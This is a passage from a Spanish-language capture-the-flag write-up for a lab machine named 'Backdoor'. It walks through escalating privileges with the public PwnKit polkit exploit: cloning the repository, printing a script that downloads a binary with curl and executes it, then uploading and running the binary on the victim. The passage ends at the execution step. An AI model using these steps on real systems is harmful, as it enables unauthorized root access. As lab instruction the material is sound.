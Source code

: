 En internet tenemos varias **pruebas de concepto** (**POC**), nos quedamos con esta:

* [https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)

Nos clonamos el repositorio en nuestro sistema:

```bash
❱ git clone https://github.com/ly4k/PwnKit.git
❱ cd PwnKit/
```

```bash
❱ ls -lago
total 32
drwxr-xr-x 1    94 abr 20 03:29 .
drwxr-xr-x 1    92 abr 20 03:29 ..
drwxr-xr-x 1   138 abr 20 03:29 .git
drwxr-xr-x 1    68 abr 20 03:29 imgs
-rw-r--r-- 1  1068 abr 20 03:29 LICENSE
-rwxr-xr-x 1 14688 abr 20 03:29 PwnKit
-rw-r--r-- 1  3032 abr 20 03:29 PwnKit.c
-rw-r--r-- 1   150 abr 20 03:29 PwnKit.sh
-rw-r--r-- 1   969 abr 20 03:29 README.md
```

Peeeerfecto, varios objetos, resaltemos algunos:

```txt
* PwnKit: Ejecutable que hace la explotación.
* PwnKit.c: Acá esta el código fuente del ejecutable anterior.
  (o sea, toda la logica para lograr la explotación)
* PwnKit.sh: Es como el automatizador de la ejecución.
  (pero no es necesario, ya veremos porque)
```

Este es el contenido del `.sh` (el que automatizaría toooodo):

```bash
❱ cat PwnKit.sh 
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit || exit
chmod +x ./PwnKit || exit
(sleep 1 && rm ./PwnKit & )
./PwnKit
```

Donde básicamente descarga el ejecutable (`PwnKit`), le da permisos de ejecución y lo ejecuta :/ Pos hagamos eso manualmente y raaaaaapidamente:

Subimos el objeto `PwnKit` (ya debes saber como) a la máquina víctima, le damos permisos de ejecución (también sabes) y ejecutémoslo:

```bash
user@Backdoor:/tmp/test$ ls -la PwnKit 
-rwxrwxr-x 1 user user 14688 Apr 20 17:45 PwnKit
```

Yyyyyyyyyyyyyyyyyyyyyyyyyyyy:

```bash
user@Backdoor:/tmp/test$ ./PwnKit
```
